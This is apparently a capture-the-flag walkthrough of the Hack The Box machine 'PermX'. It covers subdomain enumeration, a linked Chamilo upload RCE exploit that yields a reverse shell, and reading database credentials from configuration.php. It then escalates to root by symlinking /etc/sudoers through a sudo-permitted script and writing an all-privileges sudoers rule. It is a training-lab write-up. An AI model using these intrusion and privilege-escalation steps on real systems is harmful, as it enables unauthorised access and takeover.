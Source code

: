 ### Step 1
We are going to start with a scanning port. the ip have open ports to ssh, http and 8080.
let's watch whait is into the web page (to enable the webpage we need to add the ip and url in the file /etc/hosts).
![[Pasted image 20240805103101.png]]
### Step2
On the main pages i don't find somting to use.  Therefore i will use gobuster to enumerate directories.

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dns -u http://permx.htb -x .txt,.php,.html
```

I couldn't find anything useful here either.
![[Pasted image 20240805103908.png]]

### Step3
Another option we have is to search for a subdomain.
```
gobuster vhost --append-domain -u  http://permx.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt | grep -v "Status: 302"
```
Excelent! We find somting. Let's check what is inside.
![[Pasted image 20240805104311.png]]
We have a login page.
![[Pasted image 20240805104529.png]]


### Step 4
With a fast search in internet i found that chamilo have a exploit and we can use the next tool to exploit. 
https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc?tab=readme-ov-file
I do the step to step in the repository and i got a reverse shell.

Let's see what is inside configuration.php
```
www-data@permx:/var/www/chamilo/app/config$ grep -A 10 "Database connection" configuration.php
```

![[Pasted image 20240805115505.png]]
### Step 5
Login in ssh with the password we find. we find the first flag and now let's try scalate privilleges.
![[Pasted image 20240805120434.png]]

The user has a file that can be executed with root privileges, so by analyzing the structure of this file, we can create a symbolic link to modify the permissions in /etc/sudoers.
```
ln -s /etc/sudoers /home/mtz/fake_sudoers
```

After creating the symbolic link, we will execute the ".sh" file, allowing us as the mtz user to modify the contents of the sudoers file.
```
sudo /opt/acl.sh mtz rw /home/mtz/fake_sudoers
```

Now with nano, we can modify the sudoers file; we will add the following rule:
![[Pasted image 20240809105342.png]]
```
mtz ALL=(ALL:ALL) ALL
```

Finally we login as a root and enter the root directory and get the flag.
![[Pasted image 20240809105613.png]]
